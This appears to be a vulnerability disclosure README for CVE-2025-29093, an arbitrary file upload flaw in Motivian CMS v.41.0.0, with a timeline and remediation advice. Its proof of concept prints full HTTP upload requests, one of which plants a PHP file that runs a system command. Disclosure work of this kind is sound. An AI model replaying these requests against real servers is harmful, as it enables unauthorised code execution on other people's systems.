 # CVE-2025-29093-Arbitrary-File-Upload
This repository reveals a security vulnerability discovered in **Motivian Content Management System v.41.0.0**.

- CVE-2025-29093: Arbitrary File Upload

This vulnerability was reported to the vendor in accordance with responsible disclosure practices, and to MITRE, which assigned a temporary CVE ID. The details are being made public following the expiration of the 45-day disclosure period.


## General Information

- **Title:** Motivian Arbitrary File Upload
- **Vulnerability Type:** Arbitrary File Upload
- **Vendor of Product:** Motivian
- **Product:** Motivian Content Management System
- **Affected Version:** Motivian CMS v.41.0.0
- **Affected Component:** `Content/Gallery/Images`
- **Attack Vector:** Remote
- **Impact:** Malicious arbitrary file upload
- **Severity:** Medium
- **CVSSv3 score:** [*]
- **CVSSv3 vector:** CVSS:3.1:[*]
- **Found:** 2025-02-03
- **By:** Francesco Marcuccio
- **Status:** Reported to vendor on April 7, 2025 - No response/fix received by May 22, 2025


### Description

File Upload vulnerability in Motivian Content Managment System v.41.0.0 allows a remote attacker to upload arbitrary files with crafted extensions (e.g. `.php`, `.png`, `.txt`) containing malicious code, via the `Content/Gallery/Images` component.


### Proof Of Concept

The vulnerability can be exploited by uploading files with various extensions. For demonstration purposes, two proof-of-concept cases were used: one involving a `.php` file containing malicious code, and another using a `.txt` file with the *EICAR* test string. Both files were uploaded via the `Content/Gallery/Images` component.

Below is the full transcript of the HTTP requests and responses used to demonstrate the issue:


#### _Burp Request EICAR_

```http title:BurpRequestEICAR 
POST /portal/admin/cms/browseManageCmsResources!uploadFile.action HTTP/1.1
Host: [REDACTED]
Content-Length: 808
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2oYL3KVZBlAQmYAA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

------WebKitFormBoundary2oYL3KVZBlAQmYAA
Content-Disposition: form-data; name="resFolderId"

-8
------WebKitFormBoundary2oYL3KVZBlAQmYAA
Content-Disposition: form-data; name="allowedExtensions"


------WebKitFormBoundary2oYL3KVZBlAQmYAA
Content-Disposition: form-data; name="hidePageComponents"

false
------WebKitFormBoundary2oYL3KVZBlAQmYAA
Content-Disposition: form-data; name="struts.token.name"

token
------WebKitFormBoundary2oYL3KVZBlAQmYAA
Content-Disposition: form-data; name="token"

M53N7SE0QE1Z4MZV4BRV59QW3TSEZ962
------WebKitFormBoundary2oYL3KVZBlAQmYAA
Content-Disposition: form-data; name="uploadResource"; filename="eicar.txt"
Content-Type: text/plain

X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
------WebKitFormBoundary2oYL3KVZBlAQmYAA--
```

#### _Burp Request PHP_

```http title:BurpRequestPHP
POST /portal/admin/cms/browseManageCmsResources!uploadFile.action HTTP/1.1
Host: [REDACTED]
Content-Length: 789
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLdWSMj4ASbAC9uOz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

------WebKitFormBoundaryLdWSMj4ASbAC9uOz
Content-Disposition: form-data; name="resFolderId"

304802
------WebKitFormBoundaryLdWSMj4ASbAC9uOz
Content-Disposition: form-data; name="allowedExtensions"


------WebKitFormBoundaryLdWSMj4ASbAC9uOz
Content-Disposition: form-data; name="hidePageComponents"

false
------WebKitFormBoundaryLdWSMj4ASbAC9uOz
Content-Disposition: form-data; name="struts.token.name"

token
------WebKitFormBoundaryLdWSMj4ASbAC9uOz
Content-Disposition: form-data; name="token"

77PMJUJH5ZAQTPWRG5TQCLIOR9CUBK0M
------WebKitFormBoundaryLdWSMj4ASbAC9uOz
Content-Disposition: form-data; name="uploadResource"; filename="test.php5"
Content-Type: application/octet-stream

<?php 
echo system('id'); 
?>
------WebKitFormBoundaryLdWSMj4ASbAC9uOz--
```

#### _Burp Response_
```http title:BurpResponse 
HTTP/1.1 200 OK
Connection: close
Date: Thu, 06 Feb 2025 10:26:29 GMT
Content-Type: text/html;charset=ISO-8859-1
Content-Language: it-IT
Content-Length: 16729
```

### Remediation

Do not allow users to upload arbitrary files. Implement strict file validation (MIME type and content inspection), randomize filenames, and restrict upload directories.


## Disclosure Timeline

| Date       | Action                                |
| ---------- | ------------------------------------- |
| 2025-02-06 | CVE ID request                        |
| 2025-04-02 | CVE ID assignment                     |
| 2025-04-07 | Vulnerabilities reported to vendor    |
| 2025-05-30 | Public disclosure after 45-day window |

## Credit
Discovered and responsibly disclosed by:

[**Francesco Marcuccio**](https://www.linkedin.com/in/francesco-marcuccio-0433b9218)  
CyberSecurity Consultant, Penetration Tester

MITRE discoverer attribution listed as:  
[**Francesco Marcuccio**](https://www.linkedin.com/in/francesco-marcuccio-0433b9218)  


## Status
This CVE ID is currently in RESERVED status. It will be updated once officially published by MITRE.
